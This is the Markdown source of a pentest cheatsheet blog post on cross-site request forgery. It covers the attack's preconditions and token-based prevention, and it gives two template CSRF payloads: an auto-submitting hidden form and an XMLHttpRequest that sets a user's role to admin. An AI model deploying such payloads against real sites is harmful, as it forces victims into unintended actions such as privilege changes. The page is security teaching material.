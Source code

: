 ```yaml
---
title: "CSRF attack"
subtitle: ""
date: 2020-03-04T15:58:26+08:00
lastmod: 2020-03-04T15:58:26+08:00
draft: false
author: "Hato0"
description: "CSRF cheatsheet"

tags: ["web", "penetest", "csrf"]
categories: ["Penetest - Web"]

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: false
ruby: false
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false
toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
share:
  enable: true
comment:
  enable: true
---
```

# Cross-site request forgery

Cross-site request forgery (also known as CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. This attack can happend by phishing, clone site, etc ... Conditions have to be present for this attack  to be perform : 

-   **A relevant action.** : Change password, email, rights, ...
-   **Cookie-based session handling.** : Website with cookie base for sessions are an incredible candidate for this type of attack
-   **No unpredictable request parameters.** Every element should be known or obtainable to be able to forge the request

Here is a schema to check for CSRF from PATT:

![alt CSRF_Detection](https://github.com/swisskyrepo/PayloadsAllTheThings/raw/master/CSRF%20Injection/Images/CSRF-CheatSheet.png?raw=true)


## Some examples

- No defenses
    {{< highlight html "lineNos=false" >}}
<form method="$method" action="$url">  
    <input type="hidden" name="$param1name" value="$param1value">  
</form>  
<script>  
    document.forms\[0\].submit();  
</script>
    {{< /highlight >}}

- JSon and JS combined

    {{< highlight javascript "lineNos=false" >}}
<script>
var xhr \= new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.setRequestHeader("Content-Type", "text/plain");
//xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
//xhr.setRequestHeader("Content-Type", "multipart/form-data");
xhr.send('{"role":admin}');
</script>
    {{< /highlight >}}

## How to prevent them 

-   Unpredictable with high entropy, as for session tokens in general.
-   Tied to the user's session.
-   Strictly validated in every case before the relevant action is executed.